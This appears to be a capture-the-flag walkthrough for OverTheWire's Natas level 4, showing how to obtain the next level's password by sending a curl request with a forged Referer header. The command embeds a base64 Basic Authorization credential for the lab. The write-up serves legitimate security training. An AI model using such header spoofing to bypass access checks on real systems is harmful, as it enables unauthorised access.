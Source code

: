 # 🔐 Natas 4 Walkthrough

To complete **Natas 4** of the OverTheWire wargames, we need to understand how **HTTP Referers** work.  
This particular level restricts access based on the `Referer` header — it must appear as though we're coming from **natas5**, even though we don't have direct access to that level yet.

---

## 🧠 The Clue

When you visit the site and refresh the page, you'll see:

> **Access disallowed. You are visiting from ...natas4... while authorized users should come only from ...natas5...**

This means our current request is coming from the wrong source (natas4), and we need to spoof or change the `Referer` to make it seem like we’re coming from **natas5**.

---

## 🛠️  Step-by-Step: Modifying the Referer with `curl`

We'll solve this using `curl` in the terminal by customizing the HTTP headers.

### 1. Open Developer Tools

In your browser:

- Press `F12` or right-click → **Inspect**
- Go to the **Network** tab
- Refresh the page

You’ll see a request to `index.php`.

---

### 2. Copy the Request as `curl`

Right-click the `index.php` request and choose:

> **Copy → Copy as cURL**

You’ll get something like:

```bash
curl 'http://natas4.natas.labs.overthewire.org/index.php' \
  --compressed \
  -H 'User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:139.0) Gecko/20100101 Firefox/139.0' \
  -H 'Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8' \
  -H 'Accept-Language: en,pl;q=0.7,en-US;q=0.3' \
  -H 'Accept-Encoding: gzip, deflate' \
  -H 'Referer: http://natas4.natas.labs.overthewire.org/index.php' \
  -H 'Authorization: Basic bmF0YXM0OlFyeVpYYzJlMHphaFVMZEhydEh4enlZa2o1OWtVeExR' \
  -H 'Connection: keep-alive' \
  -H 'Upgrade-Insecure-Requests: 1' \
  -H 'DNT: 1' \
  -H 'Sec-GPC: 1'
```
---

### 3. Change the Referer to point to natas5

All you have to do is modify the Referer header. Change:

```bash
-H 'Referer: http://natas4.natas.labs.overthewire.org/index.php'
```
To:

```bash
-H 'Referer: http://natas5.natas.labs.overthewire.org'
```

>Be sure to remove /index.php - it must be the root path of natas5.

---

### 4. Final command

Here's the full, working command:

```bash
curl 'http://natas4.natas.labs.overthewire.org/index.php' \
  --compressed \
  -H 'User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:139.0) Gecko/20100101 Firefox/139.0' \
  -H 'Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8' \
  -H 'Accept-Language: en,pl;q=0.7,en-US;q=0.3' \
  -H 'Accept-Encoding: gzip, deflate' \
  -H 'Referer: http://natas5.natas.labs.overthewire.org/' \
  -H 'Authorization: Basic bmF0YXM0OlFyeVpYYzJlMHphaFVMZEhydEh4enlZa2o1OWtVeExR' \
  -H 'Connection: keep-alive' \
  -H 'Upgrade-Insecure-Requests: 1' \
  -H 'DNT: 1' \
  -H 'Sec-GPC: 1'
```

The output should grant you the password to natas5.
> [!NOTE]
>Make sure to save these passwords somewhere, it ensures that you can come back after a longer break :)
